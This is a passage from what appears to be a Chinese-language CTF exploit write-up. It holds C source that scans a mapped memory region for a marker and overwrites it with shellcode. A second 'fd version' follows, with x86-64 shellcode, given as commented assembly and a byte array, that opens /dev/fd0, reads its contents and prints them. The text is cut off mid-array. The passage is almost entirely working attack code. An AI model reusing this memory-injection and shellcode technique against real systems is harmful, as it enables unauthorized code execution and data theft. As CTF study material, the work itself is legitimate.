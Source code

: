 ```c

        unsigned char *ptr;
        if ((ptr = memmem(swap, MB_10, needed, sizeof(needed))) != NULL) {
            printf("FOUND !\n");
            memcpy(ptr, sc, sizeof(sc));
            break;
        }

        if (i != 1 && i-1 % MAP_LIST_SIZE == 0) {
            for (int j = 0; j < MAP_LIST_SIZE; j++) {
                munmap(map_list[j], PAGE_1MB_SIZE);
            }
        }
    }

    munmap(swap, MB_10);
    close(fd);

    return 0;
}
```

fd 版本:

```c
#define _GNU_SOURCE 
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

#define PAGE_1MB_SIZE 0x100000
#define MB_10 0xa00000

/*
mov rax, 2 
xor rdi, rdi 
push rdi 
mov rdi, 0x3064662f7665642f # /dev/fd0
push rdi 
mov rdi, rsp 
xor rsi, rsi 
syscall 
 
mov rdi, rax 
xor rax, rax 
mov rsi, rsp 
mov rdx, 0x30 
syscall 
 
mov rax, 1
mov rdi, 1
syscall

mov rax, 60
mov rdi, 1
syscall
*/
unsigned char sc[] = {0x48, 0xc7, 0xc0, 0x2, 0x0, 0x0, 0x0, 0x48, 0x31, 0xff, 0x57, 0x48,
            0xbf, 0x2f, 0x64, 0x65, 0x76, 0x2f, 0x66, 0x64, 0x30, 0x57, 0x48,
            0x89, 0xe7, 0x48, 0x31, 0xf6, 0xf, 0x5, 0x48, 0x89, 0xc7, 0x48,
            0x31, 0xc0, 0x48, 0x89, 0xe6, 0x48, 0xc7, 0xc2, 0x30, 0x0, 0x0, 0x0,
```